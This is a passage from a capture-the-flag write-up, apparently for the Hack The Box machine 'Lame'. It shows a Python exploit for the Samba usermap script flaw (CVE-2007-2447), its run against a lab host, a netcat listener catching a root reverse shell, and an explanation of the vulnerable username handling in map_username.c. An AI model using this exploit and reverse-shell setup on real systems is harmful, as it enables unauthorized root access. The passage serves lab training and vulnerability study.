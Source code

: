 ```python
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

To run this exploit I will set up a `nc` listener `nc -lvnp 9001` and then run the exploit.

```
┌─[zon@pwn]─[~/htb/lame]
└──╼ $python3 usermap_script.py 10.10.10.3 445 10.10.14.5 9001
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Back on netcat I get a shell as root!
```
┌─[zon@pwn]─[~/htb/lame]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.3] 45130
whoami
root
```

# CVE-2007-2447 - Samba usermap script
Samba 3.0.0 - 3.0.25rc3 are vulnerable to CVE-2007-2447 which allows a remote attacker to execute commands via the username parameter.

Two files that are important to this exploit `smbrun.c` and `map_username.c`

### `map_username.c`

In the code below we can see that `command` is set to `cmd` and `user`. `cmd` will be set to a script defined in `smb.conf`, `user` will be set to whatever we supply. Putting it all together a normal request will look like  `/etc/samba/script/usermap.sh “Zonifer”`. That string is then sent to `smbrun`
```c
if ( *cmd ) {
        char **qlines;
        pstring command;
        int numlines, ret, fd;

---->   pstr_sprintf( command, "%s \"%s\"", cmd, user ); 

        DEBUG(10,("Running [%s]\n", command));
---->   ret = smbrun(command, &fd);
        DEBUGADD(10,("returned [%d]\n", ret));

        if ( ret != 0 ) {
                if (fd != -1)
                        close(fd);
                return False;
        }
```
